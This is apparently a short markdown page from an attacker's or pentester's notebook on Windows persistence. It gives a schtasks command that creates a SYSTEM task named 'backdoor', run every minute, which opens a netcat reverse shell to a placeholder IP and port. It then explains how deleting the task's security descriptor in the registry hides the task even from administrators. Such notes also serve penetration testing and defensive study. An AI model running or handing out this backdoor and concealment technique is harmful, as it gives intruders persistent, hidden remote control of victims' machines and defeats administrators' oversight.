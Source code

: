 [[Commands#schtasks]]
### Scheduling tasks
- Create a task that runs every minutes and runs a reverse shell
```powershell
# Create a task
schtasks /create /sc minute /mo 1 /tn backdoor /tr "c:\tools\nc64 -e cmd.exe <IP> <PORT>" /ru SYSTEM

# Check the task
schtasks /query /tn backdoor
```

### Hiding the task
- We can delete the security descriptor (SD) of the task so that no user, not even administrator can query this task.
- SD is an ACL that defines which users have access to the tasks.
- SD of tasks are stored at `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\backdoor` under a key named `SD`.
- Changing the value is only allowed by SYSTEM.